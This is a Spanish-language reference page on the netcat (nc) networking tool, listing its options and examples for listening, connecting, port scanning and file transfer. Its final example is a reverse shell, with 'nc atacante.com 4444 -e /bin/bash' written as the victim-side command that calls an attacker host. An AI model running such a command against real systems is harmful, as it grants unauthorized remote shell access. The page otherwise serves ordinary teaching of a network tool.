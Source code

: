 ### **Básico/Utilidades de Red/nc.md**

# nc (Netcat)

## Descripción

`nc` (Netcat) es una herramienta de red versátil utilizada para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP. Es conocida como la "navaja suiza" de las herramientas de red debido a su amplia gama de usos, incluyendo depuración, exploración de puertos, transferencia de archivos y creación de conexiones reversas.

## Uso

```bash
nc [opciones] destino puerto
```

### Opciones principales

- `-l`: Escucha en modo servidor.
- `-p`: Especifica el puerto local.
- `-v`: Modo verbose, proporciona información detallada.
- `-z`: Modo escaneo de puertos sin enviar datos.
- `-u`: Usa el protocolo UDP.
- `-w SEGUNDOS`: Establece un tiempo de espera para la conexión.
- `-e PROGRAMA`: Ejecuta un programa después de establecer la conexión.
- `-n`: No resuelve nombres de dominio.

## Ejemplos

- Escuchar en el puerto 1234:
  
  ```bash
  nc -l -p 1234
  ```

- Conectar a un servidor en el puerto 80:
  
  ```bash
  nc ejemplo.com 80
  ```

- Escaneo rápido de puertos:
  
  ```bash
  nc -zv ejemplo.com 20-30
  ```

- Transferir un archivo desde un servidor:
  
  En el servidor:
  
  ```bash
  nc -l -p 1234 > archivo_recibido.txt
  ```
  
  En el cliente:
  
  ```bash
  nc servidor.com 1234 < archivo_enviado.txt
  ```

- Crear una shell reversa:
  
  En el atacante:
  
  ```bash
  nc -l -p 4444
  ```
  
  En la víctima:
  
  ```bash
  nc atacante.com 4444 -e /bin/bash
  ```
